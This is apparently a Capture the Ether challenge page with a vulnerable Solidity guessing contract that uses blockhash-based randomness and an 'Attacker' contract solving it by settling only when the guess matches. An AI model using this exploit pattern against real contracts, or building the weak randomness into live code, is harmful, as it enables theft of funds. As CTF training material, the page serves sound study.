 This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.

```solidity
pragma solidity ^0.4.21;

// 0xd9aD89E42a9b19b499cD0D63F7Ec76a5b708E43B
contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```







solution

https://coinsbench.com/capture-the-ether-predict-the-future-cb5acf12a8cb

```solidity
pragma solidity ^0.8.0;

interface PredictTheFutureChallenge {
    function isComplete() external view returns (bool) ;

    function lockInGuess(uint8 n) external payable ;

    function settle() external ;
}

// 0x9c6c2E60295b8BA499C19FA6cDdCeDA5A9E09Db4
contract Attacker {
    address public owner;
    PredictTheFutureChallenge public victim;

    constructor(address _addr) {
        owner = msg.sender;
        victim = PredictTheFutureChallenge(_addr);
    }

    function lockNum(uint8 n) external payable{
        require(n >= 0 && n <=9, "Number must be in the 0-9 range");

        victim.lockInGuess{value: 1 ether}(n);
    }

    function attack() external payable{
        victim.settle();
        require(victim.isComplete(), "Wrong answer");
    }

    function withdraw() external {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {}
}
```





